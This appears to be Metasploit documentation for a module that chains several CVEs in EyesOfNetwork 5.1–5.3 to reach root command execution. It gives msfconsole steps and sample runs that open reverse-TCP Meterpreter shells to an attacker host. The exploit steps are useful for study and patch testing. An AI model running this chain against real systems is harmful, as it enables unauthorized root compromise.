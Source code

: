 ## Vulnerable Application
This module exploits multiple vulnerabilities in EyesOfNetwork version 5.1, 5.2 and 5.3 in order to execute arbitrary
commands as root.

The module first runs a few checks to verify the EyesOfNetwork version. If version 5.1 or 5.2 is detected, it attempts
an authentication bypass via an SQL injection in the `user_id` field in a cookie (CVE-2020-9465). If version 5.3 is
detected, the module exploits a hardcoded admin API key in EyesOfNetwork API version 2.4.2 (CVE-2020-8657) in order to
generate a valid access token and uses it to create a new user with admin privileges. If the generated key is not valid,
the admin API key is obtained via an SQL injection vulnerability affecting the same API version (CVE-2020-8656). If this
doesn't work either, it attempts CVE-2020-9465, which is the slowest and most noisy exploit of the three.

For all vulnerable versions, the next step after bypassing authentication is to abuse a command injection vulnerability
in the `target` parameter of the AutoDiscovery functionality within the EON web interface (CVE-2020-8654). Specifically,
the module writes an Nmap NSE script containing the payload to disk, and then activates this script by launching an Nmap
host discovery scan against the target. This achieves privilege escalation because the default sudo configuration
permits the 'apache' user to execute Nmap as root (CVE-2020-8655).

The module only works with HTTPS, so SSL is enabled by default. Valid credentials for a user with administrative
privileges are required. However, as explained above, the module can bypass authentication via various methods,
depending on the EON version. This module has been successfully tested on EyesOfNetwork 5.1, 5.2 and 5.3.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/eyesofnetwork_autodiscovery_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

### SERVER_ADDR
This option should be set for EON version 5.3 in case the EyesOfNetwork server IP address is different from `RHOST`.
This because the EON server IP is needed to generate the API key.

### SQLI_SLEEP
The sleep value to be used when attempting to exploit CVE-2020-9465, which uses sleep-based SQL injection. The default
value is 1.

## Scenarios
1. EyesOfNetwork version 5.1

```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > show options

Module options (exploit/linux/http/eyesofnetwork_autodiscovery_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443              yes       The target port (TCP)
   SERVER_ADDR                   yes       EyesOfNetwork server IP address (if different from RHOST)
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      8080             yes       The local port to listen on.
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI    /                yes       Base path to EyesOfNetwork
   URIPATH                       no        The URI to use for this exploit (default is random)
   VHOST                         no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.1. Attempting exploitation using CVE-2020-9465.
[+] The target seems vulnerable.
[*] Verified that the admin user has at least one active session.
[*] Found the admin 'session_id' size: 31
[*] Calculating the admin 'session_id' value. This will take a while...
[+] Obtained admin 'session_id' value: 1856115646
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.91.2:4444 -> 192.168.1.1:55744) at 2020-05-19 08:48:37 -0400
```

2. EyesOfNetwork version 5.2

```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.2. Attempting exploitation using CVE-2020-9465.
[+] The target seems vulnerable.
[*] Verified that the admin user has at least one active session.
[*] Found the admin 'session_id' size: 31
[*] Calculating the admin 'session_id' value. This will take a while...
[+] Obtained admin 'session_id' value: 1445224287
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 2 opened (192.168.1.2:4444 -> 192.168.1.3:38070) at 2020-05-19 08:49:46 -0400
```

3. EyesOfNetwork version 5.3

```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.3 or later. Attempting exploitation using CVE-2020-8657 or CVE-2020-8656.
[*] Using generated API key: a926605f4e617fd68bbb86112156b41ea2406503859dad58b0d0aefcc848b755
[+] Authenticated as user r6veXwtZ2zh
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.4
[*] Meterpreter session 3 opened (192.168.1.2:4444 -> 192.168.1.4:60244) at 2020-05-19 08:50:04 -0400
```

## References
1. <https://www.exploit-db.com/exploits/48025>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-8654>
3. <https://nvd.nist.gov/vuln/detail/CVE-2020-8655>
4. <https://nvd.nist.gov/vuln/detail/CVE-2020-8656>
5. <https://nvd.nist.gov/vuln/detail/CVE-2020-8657>
6. <https://nvd.nist.gov/vuln/detail/CVE-2020-9465>
